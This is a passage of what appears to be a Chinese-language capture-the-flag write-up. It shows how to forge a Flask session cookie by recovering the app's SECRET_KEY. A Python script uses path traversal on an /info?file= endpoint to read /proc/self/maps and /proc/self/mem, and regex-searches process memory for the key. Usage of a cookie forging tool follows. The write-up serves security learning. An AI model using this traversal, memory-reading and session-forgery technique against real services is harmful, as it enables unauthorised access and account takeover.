 ```


if __name__ == '__main__':
 app.run(host='0.0.0.0', debug=False, port=5637)
```

所以要伪造session,需要获得SECRET_KEY，在代码中星号标记的地方，用了uuid库生成随机数加字符串“\*abcdefgh”来生成SECRET_KEY，所以无法在此获得该密钥

于是想到通过/proc/self/maps读取该进程的内存信息，从而获得密钥，一下为其中一组数据
```
55d6676cc000-55d6676cd000 r--p 00000000 fd:00 23480232 /usr/local/bin/python3.7\n
```

访问后信息太多，写个python脚本过滤
```
import re  
import requests  
  
def secrty():  
    url="http://61.147.171.105:63284/info?file=../../proc/self/maps" #打开网页 
    response=requests.get(url)  #获取内容
    data=re.findall('[0-9a-f]+-[0-9a-f]+ r',response.text)#通过正则获得可读内容  
    for i in data:  
        start=int(i.split("-")[0],16)  #以"-"为分界线分为两组数据，分别为内存区域的起始位置再转换为十进制
        end=int(i.split("-")[1].strip(" r"),16)  
  
        url_1=f"http://61.147.171.105:63284/info?file=../../../../proc/self/mem&start={start}&end={end}"  #拿到地址后在访问mem文件，获得内存内容
  
        data_1=requests.get(url_1)  
        data_2=re.findall("[0-9a-z]{32}\*abcdefgh",data_1.text)##uuid中生成字母共有32位，再拼接原有字符串，即可找到SECRET_KEY
        print(data_2)  
secrty()
```

得到SECRET_KEY
![攻防世界1-5.png](./img/攻防世界1-5.png)

然后可以采用flask session伪造工具：flask_session_cookie_manager3.py
用法：

解密:python flask_session_cookie_manager3.py decode -c -s # -c是flask cookie里的session值 -s参数是SECRET_KEY

加密:python flask_session_cookie_manager3.py encode -s -t # -s参数是SECRET_KEY -t参数是session的参照格式，也就是session解密后的格式

第一次启动可能会报错缺少相应的库，直接用pip安装就行